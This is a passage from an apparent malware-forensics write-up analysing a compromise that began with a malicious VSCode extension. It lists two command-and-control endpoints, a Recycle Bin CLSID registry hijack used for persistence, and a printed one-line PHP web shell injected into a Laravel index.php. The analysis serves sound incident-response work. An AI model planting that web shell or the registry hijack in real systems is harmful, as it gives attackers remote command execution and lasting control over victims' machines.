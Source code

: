 This revealed that RuntimeBroker.exe had an active connection to `18.197.239.5:18854` at the time of memory capture. This represents a **second C2 channel** beyond the ngrok tunnel found in the VSCode extension, indicating a sophisticated multi-stage attack:

- **Stage 1:** VSCode extension connects to `6.tcp.eu.ngrok.io:16587`
- **Stage 2:** Downloaded RuntimeBroker.exe connects to `18.197.239.5:18854`

After running this IP through an IP abuse database, I found that this is associated with the NJ RAT malware.

![abuseIPdb screenshot](images/ReliableThreat-ipabusedb.png)

https://www.abuseipdb.com/check/18.197.239.5

### 5. Persistence Mechanisms

#### Mechanism 1: CLSID Hijacking

**Registry Modification Target:**

```
HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command
```

**Compromised Component:** Windows Recycle Bin

- **MITRE Technique:** T1546.015 (Event Triggered Execution: Component Object Model Hijacking)
- **Impact:** Malicious code executes whenever user interacts with Recycle Bin
- **Stealth Factor:** High frequency, low suspicion trigger

#### Mechanism 2: Web Application Backdoor

**Laravel Application Compromise:**

```php
// Malicious code injected into /Users/User2/Project/laravel-11.1.4/public/index.php
$testc = $_GET['s1']; echo `$testc`;
```
